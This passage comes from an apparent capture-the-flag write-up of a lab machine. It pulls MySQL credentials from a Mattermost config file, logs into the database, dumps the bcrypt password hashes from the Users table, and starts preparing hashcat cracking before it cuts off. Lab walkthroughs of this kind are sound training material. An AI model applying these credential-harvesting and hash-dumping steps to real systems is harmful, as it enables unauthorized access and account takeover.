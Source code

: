 ```json
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
	}
```
Now we can login into mysql with `mmuser:Crack_The_MM_Admin_PW` 
```bash
maildeliverer@Delivery:/opt/mattermost/config:~$ mysql -u mmuser -p -D mattermost                                                
Enter password:                                                                                                       
Reading table information for completion of table and column names                                                    
You can turn off this feature to get a quicker startup with -A                                                        
                                                                                                                      
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                           
Your MariaDB connection id is 105                                                                                     
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10                                                                   
                                                                                                                      
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.                                                  
                                                                                                                      
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.                                        
                                                                                                                      
MariaDB [mattermost]>
```
Once we are in we can do a show tables; too see what thables do we have in this DB, describe Users; to seee user's table column and then:  
```
MariaDB [mattermost]> SELECT username, password FROM Users; 
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| b0d                              | $2a$10$dEND2rHuiQS7y7Al0NSiV.7vCghQ5g6ltWabZlnm3QxRKs5qoYrIW |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| b0d2                             | $2a$10$RcpBXt4OAlXkT4Mw.YhX9urrLPl1c.e0/6pAdtpIHpoWL/Es.fFdK |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
```
As we can see we get a bunch of hashes.  
These hashes are in a bcrypt format. bcrypt is based on blowfish and might be tough to crack wit rockyou.  
Now, to reduce the number of attempts, we can follow the int found on mattermost and generate a dictionary using the following `hashcat` command:  
```bash
```